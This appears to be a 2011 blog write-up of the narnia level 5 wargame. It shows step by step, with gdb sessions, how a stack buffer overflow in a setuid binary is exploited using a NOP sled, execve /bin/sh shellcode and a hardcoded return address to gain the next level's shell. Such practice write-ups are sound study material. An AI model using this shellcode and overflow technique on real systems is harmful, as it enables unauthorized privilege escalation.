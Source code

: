 Title: intruded.net, narnia: level 5
Date: 2011/09/22 00:31
Tags: shellcode, intruded.net, x86, gdb
Author: Ken Ko

This looks a lot like level 3: executing shellcode in an environment variable by overwriting, presumably, the <strong>%eip</strong>. 

First things first: we find out that

<code>
/wargame/level5 `python -c 'print "A" * 124'`
</code>

will give us <em>Illegal instruction</em>. So, what do we do with this? Why gdb, of course. 

<code>
gdb /wargame/level5
...
(gdb) r `python -c 'print "A" * 124'`
...
(gdb) i r
eax            0x0      0
ecx            0xfffffdf9       -519
edx            0xbffffbd4       -1073742892
ebx            0xb7fdfff4       -1208090636
esp            0xbffff9d0       0xbffff9d0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0xb7ec7e00       0xb7ec7e00 <__libc_start_main+32>
</code>

Notice that <strong>%ebi</strong> is overwritten--but we want <strong>%eip</strong>! So, let's give this another try:

<code>
(gdb) r `python -c 'print "A" * 124 + "BCDE"'`
...
(gdb) i r
eax            0x0      0
ecx            0xfffffdfd       -515
edx            0xbffffbd4       -1073742892
ebx            0xb7fdfff4       -1208090636
esp            0xbffff9d0       0xbffff9d0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x45444342       0x45444342
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
</code>

Now we see that the <strong>%eip</strong> gets hit, as well, by our overflow. 

Next, my idea is to NOP slide within these 124 bytes and have the <strong>%eip</strong> jump back into it. Not... totally sure how this will work out. 

Actually, <strong>because ASLR is off</strong>, can I assume that every time I run a program, we will have the same stack space, addresses, etc.? Let's try it out:

<code>
/*
 *      address of a particular string / buffer in memory
 */

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
        printf("%x\n", argv[1]);
}
</code>

Let's run this a few times:

<code>
level5@narnia:/tmp$ ./addr `python -c 'print "A"*128'`
bffffb6b
level5@narnia:/tmp$ ./addr `python -c 'print "a"*128'`
bffffb6b
</code>

Success! Let's continue our gdb session:

<code>
(gdb) r `python -c 'print "\x90"*124 + "\x6b\xfb\xff\xbf"'`
...
eip            0xbffffbdb       0xbffffbdb
...
(gdb) x/x 0xbffffbdb
0xbffffbdb:     0x00000000
(gdb) x/x 0xbffffb6b
0xbffffb6b:     0x90909090
</code>

Not exactly sure why my <strong>%eip</strong> is now ending in <em>db</em> rather than <em>6b</em> because it looks like there isn't anything in that memory location. Going back to our intended <em>0xbffffb6b</em>, however, has us looking at NOPs. 

Brilliant.

Let's get our shellcode from earlier and add it to the end of the buffer. With some snazzy bash to calculate the required amount of NOPs, we can craft our string:

<code>
echo $(( 124 - 61 ))
...
(gdb) r `python -c 'print "\x90" * 63 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x6b\xfb\xff\xbf"'`
...
sh-3.1$ whoami                  
level5
sh-3.1$        
</code>

d'oh. Let's try this outside of gdb...

<code>
level5@narnia:/tmp$ /wargame/level5 `python -c 'print "\x90" * 63 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x6b\xfb\xff\xbf"'`
sh-3.1$ 
sh-3.1$ 
sh-3.1$ whoami
level6
</code>

I'm guessing the seteuid() doesn't work because we're trapped within gdb's borders. Just a guess.
